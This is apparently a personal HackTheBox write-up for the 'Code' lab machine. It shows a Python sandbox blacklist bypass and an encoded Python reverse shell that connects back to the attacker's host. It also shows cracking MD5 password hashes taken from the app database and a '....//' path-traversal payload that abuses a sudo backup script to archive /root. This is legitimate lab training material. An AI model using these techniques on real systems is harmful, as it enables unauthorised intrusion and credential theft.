








Welcome to my first HTB writeup/walkthrough. Having just received a new keyboard from my wonderful partner, I've gained the drive to finally start posting writeups as I learn offsec with HTB.

Have you ever thought you knew something then experienced something that made you think *nevermind*? Well that was me with Code. Having used Python extensively in college, I thought I was pretty decent--at least not a novice. But well... let's just say I got put back in my place.

Anyways, let's just get started.

## Recon
We begin with a basic Nmap scan.
```bash
┌──(kali㉿kali)-[~]
└─$ nmap -sCV 10.10.11.62                 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-31 01:06 EDT
Nmap scan report for 10.10.11.62
Host is up (0.019s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b5:b9:7c:c4:50:32:95:bc:c2:65:17:df:51:a2:7a:bd (RSA)
|   256 94:b5:25:54:9b:68:af:be:40:e1:1d:a8:6b:85:0d:01 (ECDSA)
|_  256 12:8c:dc:97:ad:86:00:b4:88:e2:29:cf:69:b5:65:96 (ED25519)
5000/tcp open  http    Gunicorn 20.0.4
|_http-server-header: gunicorn/20.0.4
|_http-title: Python Code Editor
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.67 seconds
```
Looks like theres an SSH and HTTP service running. The SSH service is usually not vulnerable with HTB, so we can enumerate the HTTP service first.

## Web Enumeration
First we add the host to our `/etc/hosts` file
```bash
┌──(kali㉿kali)-[~]
└─$ echo '10.10.11.62 code.htb' | sudo tee -a /etc/hosts
10.10.11.62 code.htb
```
Navigating to the webpage on port 5000, we see some sort of web-based code runner.


There doesn't seem to be more to this site. There are Register, Login, and About links, but no useful information is found. You can also try directory/vhost fuzzing, but I didn't find anything particularly interesting.

## Foothold
### Blacklist Bypass
If our python code is running, we can try directly popping a reverse shell. However, playing around with some python leads to some issues...


There seems to be some kind of filter. After some testing, we can determine the filter to be a blacklist on the entire input string.



As you can see, "os" is filtered despite only being called in a print statement. I believe this filter is probably only being run on the user input on the web back-end. We can test this theory by trying to print "os" without directly having the string "os" sent though the webapp.



Ezpz. We've proven that we can bypass the web filter while running "malicious" code. Now we have to somehow come up with bypassable code that runs a reverse shell.

### Popping The Shell
We know that we can bypass the filter using string concatenation, so let's figure out how to call python functions with string literals.

The question we must ask ourselves is: *how are functions called in python?*. If we were to look at a compiled language like C, the compiler creates a data structure called the [Symbol Table](https://en.wikipedia.org/wiki/Symbol_table). Python also has a symbol table that gets created during bytecode compilation; however, it also has dynamic structures called *namespaces* that get created at runtime.

We can use these namespaces to see what global/built-in functions are available, then call them with **string literals**.

If we look at the normal built-in functions, we can see some useful modules and functions.
```bash
┌──(kali㉿kali)-[~]
└─$ python -c "print(dir(__builtins__))"       
['ArithmeticError', 'AssertionError', 'AttributeError', 'BaseException', 'BaseExceptionGroup', 'BlockingIOError', 'BrokenPipeError', 'BufferError', 'BytesWarning', 'ChildProcessError', 'ConnectionAbortedError', 'ConnectionError', 'ConnectionRefusedError', 'ConnectionResetError', 'DeprecationWarning', 'EOFError', 'Ellipsis', 'EncodingWarning', 'EnvironmentError', 'Exception', 'ExceptionGroup', 'False', 'FileExistsError', 'FileNotFoundError', 'FloatingPointError', 'FutureWarning', 'GeneratorExit', 'IOError', 'ImportError', 'ImportWarning', 'IndentationError', 'IndexError', 'InterruptedError', 'IsADirectoryError', 'KeyError', 'KeyboardInterrupt', 'LookupError', 'MemoryError', 'ModuleNotFoundError', 'NameError', 'None', 'NotADirectoryError', 'NotImplemented', 'NotImplementedError', 'OSError', 'OverflowError', 'PendingDeprecationWarning', 'PermissionError', 'ProcessLookupError', 'PythonFinalizationError', 'RecursionError', 'ReferenceError', 'ResourceWarning', 'RuntimeError', 'RuntimeWarning', 'StopAsyncIteration', 'StopIteration', 'SyntaxError', 'SyntaxWarning', 'SystemError', 'SystemExit', 'TabError', 'TimeoutError', 'True', 'TypeError', 'UnboundLocalError', 'UnicodeDecodeError', 'UnicodeEncodeError', 'UnicodeError', 'UnicodeTranslateError', 'UnicodeWarning', 'UserWarning', 'ValueError', 'Warning', 'ZeroDivisionError', '_IncompleteInputError', '__build_class__', '__debug__', '__doc__', '__import__', '__loader__', '__name__', '__package__', '__spec__', 'abs', 'aiter', 'all', 'anext', 'any', 'ascii', 'bin', 'bool', 'breakpoint', 'bytearray', 'bytes', 'callable', 'chr', 'classmethod', 'compile', 'complex', 'copyright', 'credits', 'delattr', 'dict', 'dir', 'divmod', 'enumerate', 'eval', 'exec', 'exit', 'filter', 'float', 'format', 'frozenset', 'getattr', 'globals', 'hasattr', 'hash', 'help', 'hex', 'id', 'input', 'int', 'isinstance', 'issubclass', 'iter', 'len', 'license', 'list', 'locals', 'map', 'max', 'memoryview', 'min', 'next', 'object', 'oct', 'open', 'ord', 'pow', 'print', 'property', 'quit', 'range', 'repr', 'reversed', 'round', 'set', 'setattr', 'slice', 'sorted', 'staticmethod', 'str', 'sum', 'super', 'tuple', 'type', 'vars', 'zip']

```
If you look closely the blacklisted "exec" and "__import__" are built-in. If we can somehow gain access to the *__builtins__* object, we could call them; however, "builtins" is also blacklisted.

Luckily, the *globals* namespace gives us access to a dictionary that maps names to global objects.

```bash
┌──(kali㉿kali)-[~]
└─$ python -c "print(globals())"                      
{'__name__': '__main__', '__doc__': None, '__package__': None, '__loader__': <class '_frozen_importlib.BuiltinImporter'>, '__spec__': None, '__annotations__': {}, '__builtins__': <module 'builtins' (built-in)>}
```

Would you look at that, globals maps a string key to the __builtins__ object, so we can call it with a concatenated string!



Oh, did I mention "globals" isn't blacklisted :)? I guess the lesson is, if you are going ot make a blacklist, you better make sure you blacklist *everything*. Better yet, just do something other than a blacklist -_-.

With access to builtin functions, let's just try calling exec to see what happens.



Ruh-roh, looks like I can call exec on python code as a string! Now all we have to do is create python code that doesn't directly have blacklisted terms. This can be easily accomplished by base64 encoding some python code, then passing the decoded string to exec.

Let's encode a python reverse shell into base64

```bash
┌──(kali㉿kali)-[~]
└─$ echo -n 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.2",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")' | base64 -w 0
aW1wb3J0IHNvY2tldCxvcyxwdHk7cz1zb2NrZXQuc29ja2V0KHNvY2tldC5BRl9JTkVULHNvY2tldC5TT0NLX1NUUkVBTSk7cy5jb25uZWN0KCgiMTAuMTAuMTQuMiIsNDQ0NCkpO29zLmR1cDIocy5maWxlbm8oKSwwKTtvcy5kdXAyKHMuZmlsZW5vKCksMSk7b3MuZHVwMihzLmZpbGVubygpLDIpO3B0eS5zcGF3bigiL2Jpbi9zaCIp
```

And have ChatGPT generate some base64 decoding code and we have:

```python
ex = globals()["__buil"+"tins__"]["exe"+"c"]

# Base64 decoding table
# Function to decode base64 without
def base64_decode(encoded_str):
    base64_chars = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/"
    padding = "="

    # Create a dictionary for base64 characters
    base64_map = {base64_chars[i]: i for i in range(64)}
    
    # Remove padding
    encoded_str = encoded_str.rstrip(padding)
    
    # Convert the encoded string to binary
    binary_str = ""
    for char in encoded_str:
        binary_str += format(base64_map[char], '06b')
    
    # Group the binary string into 8-bit chunks (bytes)
    byte_chunks = [binary_str[i:i+8] for i in range(0, len(binary_str), 8)]
    
    # Convert binary chunks to characters
    decoded_bytes = []
    for chunk in byte_chunks:
        decoded_bytes.append(chr(int(chunk, 2)))
    
    # Join the decoded characters to form the final decoded string
    return ''.join(decoded_bytes).replace("\x00","")

encoded_str = 'aW1wb3J0IHNvY2tldCxvcyxwdHk7cz1zb2NrZXQuc29ja2V0KHNvY2tldC5BRl9JTkVULHNvY2tldC5TT0NLX1NUUkVBTSk7cy5jb25uZWN0KCgiMTAuMTAuMTQuMiIsNDQ0NCkpO29zLmR1cDIocy5maWxlbm8oKSwwKTtvcy5kdXAyKHMuZmlsZW5vKCksMSk7b3MuZHVwMihzLmZpbGVubygpLDIpO3B0eS5zcGF3bigiL2Jpbi9zaCIp'

decoded_str = base64_decode(encoded_str)

print(decoded_str)
ex(decoded_str)
```
Phew! Finally, we can start a Netcat listener and pop the shell!
```bash
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 4444        
listening on [any] 4444 ...
```


Shell popped! We are a un-privileged user and the shell dies every 2-ish minutes, but we're in!

Going one directory up, we see the user.txt!

```bash
$ cd ..
cd ..
$ cat user.txt
cat user.txt
<REDACTED>
```

## Privesc to martin
The first thing I saw was that we have access to the app's backend. Usually, I would upgrade my shell, but the connection dies too often for that to matter. The connection also dies too quickly for us to properly do on-net analysis, thus we zip the entire directory and tranfer it to our attack host to take our sweet time.

You could implement some persistence measures here, but meh.

```bash
$ pwd
pwd
/home/app-production/app
$ cd ..
cd ..
$ ls
ls
app  user.txt
$ tar -czvf app.tar.gz app
tar -czvf app.tar.gz app
app/
app/app.py
app/static/
app/static/css/
app/static/css/styles.css
app/templates/
app/templates/index.html
app/templates/codes.html
app/templates/register.html
app/templates/login.html
app/templates/about.html
app/__pycache__/
app/__pycache__/app.cpython-38.pyc
app/instance/
app/instance/database.db
$ ls
ls
app app.tar.gz user.txt
```

We can transfer the file to our attack host with Netcat.



We can then unzip it to inspect.
```bash
┌──(kali㉿kali)-[~]
└─$ tar xvf app.tar.gz                          
app/
app/app.py
app/static/
app/static/css/
app/static/css/styles.css
app/templates/
app/templates/index.html
app/templates/codes.html
app/templates/register.html
app/templates/login.html
app/templates/about.html
app/__pycache__/
app/__pycache__/app.cpython-38.pyc
app/instance/
app/instance/database.db
```

And we find an interesting file.

```bash
┌──(kali㉿kali)-[~/app/instance]
└─$ ls
database.db
                                                                                                                                                                                                                                             
┌──(kali㉿kali)-[~/app/instance]
└─$ file database.db                                                                                                                                        
database.db: SQLite 3.x database, last written using SQLite version 3031001, file counter 14, database pages 4, cookie 0x2, schema 4, UTF-8, version-valid-for 14
```

Throwing it into sqlite, we can get creds for the *martin* user.

```bash
┌──(kali㉿kali)-[~/app/instance]
└─$ sqlite3 database.db
SQLite version 3.46.1 2024-08-13 09:16:08
Enter ".help" for usage hints.
sqlite> .databases
main: /home/kali/app/instance/database.db r/w
sqlite> .tables
code  user
sqlite> select * from user;
1|development|759b74ce43947f5f4c91aeddc3e5bad3
2|martin|3de6f30c4a09c27fc71932bfc68474be
```
Those look like MD5 hashes. We can throw them into hashcat to get the password.

```bash
┌──(kali㉿kali)-[~/app/instance]
└─$ hashcat -m 0 3de6f30c4a09c27fc71932bfc68474be /usr/share/wordlists/rockyou.txt
<SNIP>
3de6f30c4a09c27fc71932bfc68474be:nafeelswordsmaster
```

Using this, we can log into the martin user without our shell dying every second :).

```bash
┌──(kali㉿kali)-[~/app/instance]
└─$ ssh martin@code.htb 
<SNIP>
martin@code:~$ 
```
## Privesc to root

While getting the lay of the land, we come accross some sudo permissions.

```bash
martin@code:~$ sudo -l
Matching Defaults entries for martin on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User martin may run the following commands on localhost:
    (ALL : ALL) NOPASSWD: /usr/bin/backy.sh
```

This script takes in a json file then removes any `../` with:

```bash
updated_json=$(/usr/bin/jq '.directories_to_archive |= map(gsub("\\.\\./"; ""))' "$json_file")
```

It also makes sure the backup path starts with either `/var/` or `/home` with:
```bash
allowed_paths=("/var/" "/home/")
<SNIP>
is_allowed_path() {
    local path="$1"
    for allowed_path in "${allowed_paths[@]}"; do
        if [[ "$path" == $allowed_path* ]]; then
            return 0
        fi
    done
    return 1
}

for dir in $directories_to_archive; do
    if ! is_allowed_path "$dir"; then
        /usr/bin/echo "Error: $dir is not allowed. Only directories under /var/ and /home/ are allowed."
        exit 1
    fi
done
```

**BOTH** of these security measures are weak to exploitation!

For the path traversal prevention, we can simply extend `../` to `....//` so that when `../` is replaced, it still leaves behind a `../`. I guess next time they should have looped until none were left ;).

With directory traversal, we can have our path start with either `/var/` or `/home/`, then traverse to any location we want. This means we can bakup `/root`!

Our home folder conveniently has a `task.json` read for modifying!

```bash
martin@code:~/backups$ cat task.json
{
        "destination": "/home/martin/backups/",
        "multiprocessing": true,
        "verbose_log": false,
        "directories_to_archive": [
                "/home/app-production/app"
        ],

        "exclude": [
                ".*"
        ]
}
```

We can copy this file and modify the `directories_to_archive` field to backup the root directory! Make sure to remove the `exclude` field as well, or nothing will be archived.

```bash
martin@code:~/backups$ cat my_task.json
{
        "destination": "/home/martin/backups/",
        "multiprocessing": true,
        "verbose_log": false,
        "directories_to_archive": [
                "/var/....//root/"
        ]
}
```

Now... exploit!

```bash
martin@code:~/backups$ sudo /usr/bin/backy.sh my_task.json
2025/08/31 07:09:34 🍀 backy 1.2
2025/08/31 07:09:34 📋 Working with my_task.json ...
2025/08/31 07:09:34 💤 Nothing to sync
2025/08/31 07:09:34 📤 Archiving: [/var/../root]
2025/08/31 07:09:34 📥 To: /home/martin/backups ...
2025/08/31 07:09:34 📦
martin@code:~/backups$ ls
code_home_app-production_app_2024_August.tar.bz2  code_var_.._root_2025_August.tar.bz2  my_task.json  task.json
```

I ended up moving my tar to the home directory because it kept getting deleted (not sure if it was by other players, or by some scripts). But we can unzip the bz archive to get our flag!

```bash
martin@code:~$ tar xjvf code_var_.._root_2025_August.tar.bz2 
root/
root/.local/
root/.local/share/
root/.local/share/nano/
root/.local/share/nano/search_history
root/.selected_editor
root/.sqlite_history
root/.profile
root/scripts/
root/scripts/cleanup.sh
root/scripts/backups/
root/scripts/backups/task.json
root/scripts/backups/code_home_app-production_app_2024_August.tar.bz2
root/scripts/database.db
root/scripts/cleanup2.sh
root/.python_history
root/root.txt
root/.cache/
root/.cache/motd.legal-displayed
root/.ssh/
root/.ssh/id_rsa
root/.ssh/authorized_keys
root/.bash_history
root/.bashrc
martin@code:~$ ls
backups  code_var_.._root_2025_August.tar.bz2  root
martin@code:~$ cd root
martin@code:~/root$ ls
root.txt  scripts
martin@code:~/root$ cat root.txt
<REDACTED>
```
## Conclusion
This box was overall very fun and well made. I had to learn a lot about the inner-workings of the Python programming language and realized there was so much more to know about it (as it is with everything). There were probably 100's of better ways to exploit the web filter, but I hacked what I could together and got it done. The privesc was easy, but honestly it was welcomed after I spent so much time figuring out the foothold.

Thank you for reading. Hopefully you learned something. If there were any spelling errors, ramblings, etc. I blame myself for doing this so late at night. Till next time!
